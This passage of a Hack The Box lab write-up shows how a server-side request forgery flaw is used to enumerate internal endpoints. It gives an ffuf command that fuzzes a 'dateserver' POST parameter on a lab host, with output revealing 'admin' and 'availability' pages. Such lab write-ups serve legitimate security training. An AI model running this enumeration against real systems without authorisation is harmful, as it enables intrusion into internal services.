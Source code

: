 This means SSRF is possible, let's try to enumerate another endpoints using ffuf in the following way:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

We get the following:

```
smoothment@htb[/htb]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80" -ic -c -t 100

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : POST
 :: URL : http://10.129.201.127/index.php
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Header : Content-Type: application/x-www-form-urlencoded
 :: Data : dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 100
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter : Regexp: Server at dateserver.htb Port 80
________________________________________________

admin [Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 114ms]
availability [Status: 200, Size: 9, Words: 1, Lines: 1, Duration: 107ms]
```

We found two endpoints `admin` and `availability`, let's try to read the `admin.php` endpoint:


